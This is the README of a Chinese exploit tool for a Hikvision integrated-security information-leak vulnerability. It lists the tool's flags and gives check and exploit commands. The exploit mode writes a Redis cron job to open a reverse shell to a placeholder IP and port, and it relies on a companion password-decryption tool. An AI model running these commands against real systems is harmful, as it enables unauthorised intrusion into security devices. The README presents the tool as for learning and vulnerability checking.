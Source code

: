 # 海康威视综合安防信息泄露工具

## 简介

*该工具用于海康威视信息泄露漏洞的检测，若目标redis对外开放会结合redis写入计划任务反弹shell。*

本工具只做学习交流用，代码开源，请勿用做违法用途。

## 使用

 **参数**

```shell
  -c	check is vuln(default)
  -e	reverse a shell
  -p string
    	reverse port
  -r string
    	reverse  ip
  -u string
    	target url
```

**检测**

```shell
./Hikvision_Info_Leak -c -u http://xxxx.xx.xxx.xx
```

**利用**

```shell
./Hikvision_Info_Leak -e -u http://xxxx.xx.xxx.xx -r x.x.x.x -p 18080
```

## 注意

1.本工具的利用模块需要结合海康密码解密工具

https://github.com/wafinfo/Hikvision